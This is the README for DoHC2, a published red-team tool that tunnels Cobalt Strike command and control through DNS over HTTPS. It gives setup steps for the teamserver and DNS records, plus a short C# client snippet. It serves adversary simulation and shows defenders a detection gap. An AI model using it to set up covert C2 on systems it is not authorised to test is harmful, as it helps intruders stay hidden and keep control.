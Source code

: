# DoHC2

DoHC2 allows the ExternalC2 library from Ryan Hanson (https://github.com/ryhanson/ExternalC2) to be
leveraged for command and control (C2) via DNS over HTTPS (DoH). This is built for the popular 
Adversary Simulation and Red Team Operations Software Cobalt Strike (https://www.cobaltstrike.com).

## Presentation

This project was released on October 23rd 2018 at [Mitre ATT&CKcon](https://www.mitre.org/attackcon). 

Slides:
[Playing Devil’s Advocate to Security Initiatives with ATT&CK](Mitre_Attackcon_Playing_Devils_Advocate_With_Attack_1.0.pdf)

Blog Article:
[DOH! DNS Over HTTPS Poses Possible Risks to Enterprises](https://www.trustwave.com/Resources/SpiderLabs-Blog/DOH!-DNS-Over-HTTPS-Poses-Possible-Risks-to-Enterprises/)

## Diagram

![Screenshot](dohc2_diagram.png)

## Usage

1. Install and launch Cobaltstrike teamserver.
2. Launch a beacon_http/beacon_https listener - *Gotcha* This can be firewalled off but you need this for External C2 to work.
3. Load in script 'external_c2.cna' to Start ExternalC2 port 2222 (Firewall off).
4. Install dependencies for python3 server.
5. Allow port 53/udp to Internet (or to the DoH provider IP ranges).
6. Create an A record on your domain to point to the teamserver/DNS server IP i.e. [A] entry.example.org -> 000.000.000.000
7. Create an NS record to point to the A record for send channel (INPUTDOMAIN) i.e. [NS] send.example.org -> entry.example.org.
8. Create an NS record to point to the A record for receive channel (OUTPUTDOMAIN) i.e. [NS] receive.example.org -> entry.example.org.
9. Change INPUTDOMAIN and OUTPUTDOMAIN in DoHC2.py. Change encryption key/IV - this is used to encrypt the path from Teamserver-->Client Only (Encrypts Stager). Change max_records from 1 depending on DoH provider, some providers reorder records returned which is not currently handled. Max 5 works well with DNS server.
10. Launch python3 DNS server.
11. Build ExternalC2 library. Change encryption key/IV in DoHChannel.cs to match python3 server. 
12. Configure and launch DoHC2() as below being sure to set INPUTDOMAIN, OUTPUTDOMAIN and a [DoH provider](https://github.com/curl/curl/wiki/DNS-over-HTTPS) in format 'https://resolver.example.org/dns-query'.

## Server

Python DNS server based on [ACME DNS Server](https://github.com/pawitp/acme-dns-server)

* This interfaces raw DNS to the Cobalt Strike Teamserver on 127.0.0.1:2222 by default.
* Change INPUTDOMAIN and OUTPUTDOMAIN to be hosts that are NS of the server's external IP:

```bash
	pip3 install -r requirements.txt
	sudo python3 ./DoHC2.py
```

## Library

[@ryhanson](https://twitter.com/ryhanson)'s [ExternalC2](https://github.com/ryhanson/ExternalC2) with the following additions:
* Channels> DoHChannel.cs - DoH implementation
* Channels > Base32.cs (from https://gist.github.com/BravoTango86/2a085185c3b9bd8383a1f956600e515f)
* DoHC2.cs - DoH channel set-up / wrapper
* Newtonsoft.JSON (https://www.newtonsoft.com/json) is added to project

## Example Client

* As with rest of ExternalC2 DoHC2 is COMVisible for JScript/DotNetToJS but this is a simple example to initiate it.
* The example client DoHC2Runner is a simple C# program to demo loading the library and setting it up as follows:

```csharp
	DoHC2 doh = new DoHC2();
	doh.Configure("<INPUTDOMAIN>","<OUTPUTDOMAIN>","<DoH Hostname i.e. https://dns.google.com/resolve or https://dns.example.org/dns-query");
	doh.Go();
```


## Authors
* **David Middlehurst** - Twitter- [@dtmsecurity](https://twitter.com/dtmsecurity)

## License

DoHC2

Some elements created by David Middlehurst, SpiderLabs as described above 
(Please refer to resepective licenses where other open-source projects are utilised).

Copyright (C) 2018 Trustwave Holdings, Inc.
 
This program is free software: you can redistribute it and/or modify
it under the terms of the GNU General Public License as published by
the Free Software Foundation, either version 3 of the License, or
(at your option) any later version.

This program is distributed in the hope that it will be useful,
but WITHOUT ANY WARRANTY; without even the implied warranty of
MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
GNU General Public License for more details.

## Acknowledgments
* [ExternalC2](https://github.com/ryhanson/ExternalC2)
* [ExternalC2 Spec](https://www.cobaltstrike.com/help-externalc2)
* [ACME DNS Server - (Python Server)](https://github.com/pawitp/acme-dns-server)
* [Python Shared File C2 - (Python Server)](https://github.com/outflanknl/external_c2)
* [Python External_C2_Framework - (Python Server)](https://github.com/Und3rf10w/external_c2_framework)
* [DNSExfiltrator - Python Server](https://github.com/Arno0x/DNSExfiltrator)
